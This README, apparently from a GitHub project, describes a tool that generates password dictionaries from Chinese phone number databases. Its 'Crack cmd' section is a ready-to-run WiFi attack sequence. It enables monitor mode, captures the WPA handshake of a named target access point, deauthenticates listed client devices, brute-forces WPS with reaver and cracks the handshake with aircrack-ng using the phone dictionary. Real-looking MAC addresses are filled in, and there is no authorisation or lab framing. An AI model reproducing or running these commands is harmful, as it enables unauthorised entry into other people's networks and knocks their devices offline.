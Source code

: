 # Generate dictionary based on Chinese phone number

## Usage
Set priority in table `province_priority` to adjust the sequence of the province in dict, priority 0 will not be generated.

- `load_phone.py` loads phone numbers to sqlitedb
- `phone_dict_gen.py` will generate the phone dicts

## Download data files
- Download phone_region.db from ["我的文档" in 天翼云盘](https://cloud.189.cn/web/main/file/folder/-15)
- Download phone.csv from ["我的文档" in 天翼云盘](https://cloud.189.cn/web/main/file/folder/-15)

## Crack cmd
```bash
# wlan interface
wlan_mon_if=wlan1mon
# Enable monitor mode
sudo airmon-ng start ${wlan_mon_if}

# Sniff
# Sniff wifi, -c CHANNEL
rm -fr *.cap && sudo airodump-ng --wps -w wpa ${wlan_mon_if} -c 6

###################################################################
# tgt is the target wifi to crack, clientvic is the client to deauth
tgt=8C:18:50:56:2B:28

# Collect the handshake cap
sudo rm -fr *.cap && sudo airodump-ng --bssid ${tgt} -w ${tgt}.cap ${wlan_mon_if} -c 2

# # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # 
# Deauth the client
tgt=8C:18:50:56:2B:28

clientvic=14:5F:94:8C:AA:BF
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} ${wlan_mon_if}
clientvic=74:E2:F5:33:23:D4
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} ${wlan_mon_if}

###################################################################

sudo reaver -i ${wlan_mon_if} -b ${tgt} –a –S –vv –d 0  -c 11


caps=BC-5F-F6-B2-6B-02_handshake.cap

# Check SSID
aircrack-ng  -J wpahash ${caps}

# Crack
aircrack-ng -l wpakey.txt -w ~/phone_dict_gen/phone.dict ${caps}
```


## Phone data src
https://gitee.com/oss/phonedata/attach_files

## Use Hashcat to crack password
See [hashcat-guide.md](hashcat-guide.md)